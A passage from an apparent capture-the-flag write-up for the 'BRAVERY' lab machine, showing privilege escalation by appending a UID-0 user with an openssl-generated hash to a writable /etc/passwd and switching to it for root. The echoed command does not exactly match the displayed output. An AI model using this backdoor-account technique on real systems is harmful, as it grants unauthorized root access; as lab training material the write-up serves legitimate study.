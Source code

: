 ```console
bash-4.2$ cd /tmp
bash-4.2$ cat /etc/passwd > passwd
```

On the attacking machine we generate a password hash with **openssl**, as shown below:

```console
root@kali:~$ openssl passwd -1 br4vR00t
$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.
```

Then we create the **s4rgaz** user and redirect to the **passwd** file in the current directory, we verify that the user was created, we copy the **passwd** file to **/etc/passwd**, we change to the **s4rgaz** user providing the password and we got root.

```console
bash-4.2$ echo 's4rgasz$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash' >> passwd
bash-4.2$ tail -2 passwd
rick:x:1004:1004::/home/rick:/bin/bash
s4rgaz:$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash
bash-4.2$ cp passwd /etc/passwd
bash-4.2$ su s4rgaz
Password: br4vR00t
[root@bravery tmp]# whoami
root
[root@bravery tmp]# cat ~/proof.txt
Congratulations on rooting BRAVERY. :)
```
